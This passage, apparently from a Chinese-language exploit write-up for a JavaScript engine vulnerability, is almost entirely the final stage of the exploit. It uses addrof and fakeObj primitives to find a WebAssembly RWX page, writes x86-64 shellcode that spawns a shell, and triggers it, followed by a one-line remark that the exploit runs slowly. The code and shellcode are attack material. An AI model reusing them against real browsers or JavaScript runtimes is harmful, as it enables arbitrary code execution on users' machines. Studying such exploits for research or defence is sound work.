 ```plain
print("[+] get address of RWX Page");
let addr = addrof(wasmInstance);
fakeObj(mem, addr);
let code_addr = Int64.fromDouble(dv.getFloat64(0xf0 - 1, true));
print(`[+] rwx addr: ${code_addr}`);
fakeObj(mem, code_addr.asDouble());
print("[+] write shellcode");
let shellcode = [
  0x2fbb485299583b6an,
  0x5368732f6e69622fn,
  0x050f5e5457525f54n
];
let data_view = new DataView(mem);
for (let i = 0; i < 3; i++)
  data_view.setBigUint64(8 * i, shellcode[i], true);
print("[+] GetShell");
f();
```

exp 运行结果如下图，因为有大量循环，所以运行稍慢。

[![](assets/1700528963-9a226a88a9cfa1de0fe3edcf06e88cc3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119200953-8c0df430-86d4-1.png)
